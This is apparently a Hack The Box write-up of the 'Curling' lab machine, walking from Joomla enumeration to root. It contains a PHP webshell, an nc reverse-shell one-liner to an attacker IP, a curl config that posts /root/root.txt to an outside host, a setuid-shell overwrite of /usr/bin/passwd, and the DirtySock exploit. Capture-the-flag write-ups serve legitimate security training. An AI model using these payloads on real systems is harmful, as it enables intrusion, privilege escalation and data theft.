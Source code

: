 ## HTB: Curling Walkthrough

**Author**: 0xdf  
**Box Name**: Curling  
**OS**: Linux  
**Difficulty**: Easy  
**Creator**: L4mpje

---

### 🧭 Recon

**Nmap full TCP scan:**
```
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.150
```
Ports open:
- 22/tcp (SSH)
- 80/tcp (HTTP)

**Nmap scripts and version detection:**
```
nmap -p 22,80 -sV -sC -oA nmap/scripts 10.10.10.150
```
Identified:
- [Apache](HTTP) 2.4.29 (Ubuntu)
- [OpenSSH](SSH) 7.6p1
- Joomla CMS on port 80

---

### 🌐 Joomla Web Enumeration

- Default page has a Joomla site titled "Curling"
- HTML source hint: `<!-- secret.txt -->`
- Navigating to `/secret.txt` reveals base64: `Q3VybGluZzIwMTgh`
- Decoded: `Curling2018!`
- Admin panel at `/administrator`, login successful with:
  - **Username**: floris
  - **Password**: Curling2018!

---

### ⚙️ Shell as www-data

**Webshell via Template Injection:**
1. Go to Templates → Beez3 → New File → PHP
2. Create `sh3ll.php` with `<?php system($_GET['0xdf']); ?>`
3. Access: `http://10.10.10.150/templates/beez3/sh3ll.php?0xdf=id`

**Interactive shell via reverse shell:**
```bash
http://10.10.10.150/templates/beez3/sh3ll.php?0xdf=cat%20/tmp/df%20|%20/bin/sh%20-i%202%3E%261%20|%20nc%2010.10.14.5%20443%20%3E%20/tmp/df
```
Listener:
```
nc -lnvp 443
```
User: `www-data`

---

### 📂 Privesc: www-data → floris

**Found in /home/floris/**:
- `password_backup`: hex-encoded multi-layer compressed file

**Extraction Process:**
1. Convert hex to binary: `xxd -r`
2. Unpack chain: `bunzip2` → `gunzip` → `bunzip2` → `tar`
3. Final file: `password.txt`

**Credentials:**
```
Username: floris
Password: 5d<wdCbdZu)|hChXll
```

Login:
```bash
su - floris
```

---

### 🔁 Privesc: floris → root

**Found folder**: `/home/floris/admin-area`

Files:
- `input`: curl config file
- `report`: output file

**pspy shows:**
```
curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```
Runs as root every minute.

**Exfil root flag via POST:**
```text
url = "http://10.10.14.5"
data = @/root/root.txt
```
Setup listener:
```
nc -nlvp 80
```

**Alternative:** Read directly from file:
```text
url = "file:///root/root.txt"
output = /tmp/.0xdf
```

---

### 🧨 Root Shell via Overwrite

Create a C program:
```c
void main() {
    setuid(0);
    setgid(0);
    execl("/bin/sh", "sh", 0);
}
```
Compile:
```
gcc -o setuid setuid.c
```
Host on HTTP server, then:
```text
url = "http://10.10.14.5/setuid"
output = /usr/bin/passwd
```
When cron runs:
```
/usr/bin/passwd → root shell
```

---

### 🧪 Beyond Root: Dirty Sock Exploit

**snapd version**: vulnerable
```
snap version
```
Upload & run DirtySock:
```
python3 dirty_sockv2.py
```
New user created:
- **Username**: dirty_sock
- **Password**: dirty_sock

Root access:
```bash
su dirty_sock
sudo su
```

**Note**: Setuid scripts (like Python) don't elevate privileges on most Linux systems.


**Source**: https://0xdf.gitlab.io/2021/03/30/htb-curling.html

